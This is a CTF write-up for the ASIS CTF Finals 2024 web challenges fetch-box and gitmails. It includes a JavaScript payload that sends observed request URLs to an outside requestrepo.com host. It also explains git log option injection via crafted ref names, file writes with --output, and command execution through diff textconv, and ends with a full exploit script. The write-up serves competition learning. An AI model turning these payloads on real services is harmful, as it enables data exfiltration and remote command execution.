```yaml
---
title: ASIS CTF Finals 2024 Write-Up
date: 2024-12-29T21:24:51+08:00
image: https://asisctf.com/images/logo-new-black.png
lang: en
tags:
-   writeup
-   ctf
---
```


Write-up for [ASIS CTF Finals 2024](https://ctftime.org/event/2403) — Web challenges fetch-box and gitmails.

<Excerpt />

## fetch-box (19 solves)

Use `PerformanceObserver` to observe `fetch` requests:

```javascript
new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
        if (entry.name.includes('/ping?')) {
            location = 'https://*.requestrepo.com/' + entry.name;
        }
    });
}).observe({entryTypes: ['resource']});
```

BTW, service worker does not work because it's not HTTPS.

## gitmails (5 solves)

### `git log` option injection

```python
            emails = check_output(
                ['git', 'log', '--pretty=format:%ae', 
                *([f'--author={author}'] if author else []),
                branch],
                cwd=repo_dir
```

Here the `branch` is supposed to be a branch, but it will be an option if it starts with `-`.

The `git` CLI does not allow such branch names, but we can modify the refs directly. For example:

```bash
cp .git/refs/heads/master .git/refs/heads/--output=config
```

### `git log --output` for file writing

We can use `git log --output` to write the log to arbitrary file. Find this in `man git log` or [git | GTFOArgs](https://gtfoargs.github.io/gtfoargs/git/).

As `--pretty=format:%ae` is set, we can use the email of each commit for each line in the output, e.g.:

```bash
GIT_AUTHOR_EMAIL="pager = /readflag" git commit --allow-empty -m nothing
GIT_AUTHOR_EMAIL='[core]' git commit --allow-empty -m nothing
```

### Approaches that do not work

-   `core.fsmonitor`: It's on GTFOArgs but it's not triggered by `git log`.
-   `core.pager`: The output pipes into the `check_output` function without an interactive tty, so Git does not use a pager.
-   `core.alternateRefsCommand`: Need a known path to an `objects` directory that is not the current repository.
-   `diff.external` / `diff.<driver>.command`: Need both `-p` and `--ext-diff` but we can only inject a single option.

### `textconv` for command execution

`diff.<driver>.textconv` can be used to execute arbitrary command with `git log -p`.

The `textconv` command is called as `<cmd> <filename>`, so we can use `textconv = /readflag '--give-me-the-f|ag' | tee` to output the flag.

We need to set the diff driver in the `info/attributes` file, such as `* [diff=flag]` and `[diff "flag"] textconv = /readflag`.

However, we only have a single commit log (the branch argument is used as an option instead), so we will have identical `config` and `info/attributes`, but they have different syntax and contents.

The `config` needs to be completely valid, while `attributes` may have syntax errors. So we can append `a= diff=flag` to `config`, which is the attribute we need and also a valid line in `config`. Then add a file with name `a=` in the repository to see the diff.

### Hosting the repository

If we don't want to use a public service like GitHub, we should host the repository to support read-only HTTP clone.

It's actually super easy. Just run `git --bare update-server-info` in the `.git` directory and run an HTTP server.

### Final script

```bash
#!/bin/bash

set -euo pipefail

mkdir exp
cd exp
git init

touch a=
git add .
GIT_AUTHOR_EMAIL='a= diff=flag' git commit -m nothing
GIT_AUTHOR_EMAIL="textconv = /readflag '--give-me-the-f|ag' | tee" git commit --allow-empty -m nothing
GIT_AUTHOR_EMAIL='[diff "flag"]' git commit --allow-empty -m nothing

cd .git
cp refs/heads/master refs/heads/--output=config
mkdir refs/heads/--output=info
cp refs/heads/master refs/heads/--output=info/attributes
cp refs/heads/master refs/heads/-p

git --bare update-server-info
python -m http.server 1337
```

Then ask the challenge server to clone your HTTP git server.
